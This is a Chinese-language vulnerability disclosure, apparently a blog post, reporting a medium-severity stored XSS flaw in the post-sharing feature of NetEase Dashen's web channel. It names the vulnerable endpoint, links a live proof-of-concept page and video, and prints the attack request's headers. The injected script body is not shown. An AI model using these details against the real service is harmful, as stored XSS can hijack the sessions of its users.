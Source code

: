 ```yaml
---
layout: post
title:  "中危：网易大神Web端频道分享帖子存储型XSS漏洞"
date:   2023-10-18 10:26:18 +0800
categories: xss
---
```


## Name

> 网易大神Web端频道分享帖子存在存储型XSS漏洞

## Weakness
> 存储型XSS

## Severity
> 中危

## URL
- POST https://inf-im.ds.163.com/v1/web/chat-room-msg/send-msg
- POC网页 https://ds.163.com/channel/0129911649/1111007930/ 打开后点击最新的分享链接，弹出xss弹框
- POC视频链接：链接：https://pan.baidu.com/s/1aOqi-sLgA5XJIw3FUPiTIw 提取码：1314

## Key Payload

    POST /v1/web/chat-room-msg/send-msg HTTP/1.1
    Host: inf-im.ds.163.com
    Connection: close
    Content-Length: 586
    GL-CheckSum: 20c428fbe325f20d1ff139943dafd2334814804e_28aebbff3e33281f4afe3ebcf0b19ae90ba97998
    sec-ch-ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
    sec-ch-ua-mobile: ?0
    GL-Uid: xxxxxxx
    GL-DeviceId: 1189888043.1694780319
    Content-Type: application/json;charset=UTF-8
    Accept: application/json, text/plain, */*
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
    GL-ClientType: 61
    GL-Nonce: xxxx
    GL-X-XSRF-TOKEN: xxxxx
    sec-ch-ua-platform: "Windows"
    Origin: https://ds.163.com
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://ds.163.com/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
    Cookie: xxx
